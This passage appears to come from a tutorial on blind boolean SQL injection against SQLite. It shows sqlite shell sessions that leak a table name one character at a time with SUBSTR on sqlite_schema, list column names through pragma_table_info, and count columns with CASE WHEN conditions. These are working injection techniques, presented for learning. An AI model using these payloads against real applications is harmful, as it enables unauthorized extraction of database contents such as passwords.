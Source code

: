 If we iterate through the possible alpha-numeric characters and symbols in the comparison, eventually one _should_ pass, at which point we know the first character in the name. This should be done programmatically using a tool like Python's `requests` or Burp's [Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder/getting-started) (which is unfortunately a paid feature).

```
sqlite> SELECT SUBSTR((SELECT tbl_name FROM sqlite_schema WHERE type='table' LIMIT 1), 1, 1);
U
sqlite> SELECT * from Users where username='admin' AND (SUBSTR((SELECT tbl_name FROM sqlite_schema WHERE type='table' LIMIT 1 OFFSET 0), 1, 1)='a');
sqlite> SELECT * from Users where username='admin' AND (SUBSTR((SELECT tbl_name FROM sqlite_schema WHERE type='table' LIMIT 1 OFFSET 0), 1, 1)='U');
admin|admin_password|Admin data
```

Once we match the first character, we can either move to the second character on its own or increase the number of characters compared against and iterate through a larger substring. The latter is shown below with a two-character comparison using the leaked `U` as the known first character.

```
sqlite> SELECT * from Users where username='admin' AND (SUBSTR((SELECT tbl_name FROM sqlite_schema WHERE type='table' LIMIT 1), 1, 2)='Ua');
sqlite> SELECT * from Users where username='admin' AND (SUBSTR((SELECT tbl_name FROM sqlite_schema WHERE type='table' LIMIT 1), 1, 2)='Us');
admin|admin_password|Admin data
```

Great! Using this query programmatically yields the table `Users`. Since that is the only table in the database, we can focus our attention there. Unfortunately we are useless without knowing the table's structure, specifically what columns hold what data. We can query table information with [`pragma_table_info`](https://renenyffenegger.ch/notes/development/databases/SQLite/sql/pragma/table_info), which contains metadata on the columns. We care specifically about the `name` field, so let's just `SELECT` that.

```
sqlite> SELECT name FROM pragma_table_info('Users');
username
password
data

sqlite> SELECT name FROM pragma_table_info('Users') LIMIT 1;
username

sqlite> SELECT name FROM pragma_table_info('Users') LIMIT 1 OFFSET 1;
password
```


We can use this subquery just as we did the `sqlite_schema` subquery to do a count of the columns to know what we're working with. Again, we want to `LIMIT` and `OFFSET`:

```
sqlite>  SELECT * from Users where username='admin' AND (SELECT CASE WHEN COUNT(*) > 2 THEN 1 ELSE 'no' END AS result from pragma_table_info('Users'));
admin|admin_password|Admin data

sqlite>  SELECT * from Users where username='admin' AND (SELECT CASE WHEN COUNT(*) > 3 THEN 1 ELSE 'no' END AS result from pragma_table_info('Users'));
sqlite> 
```
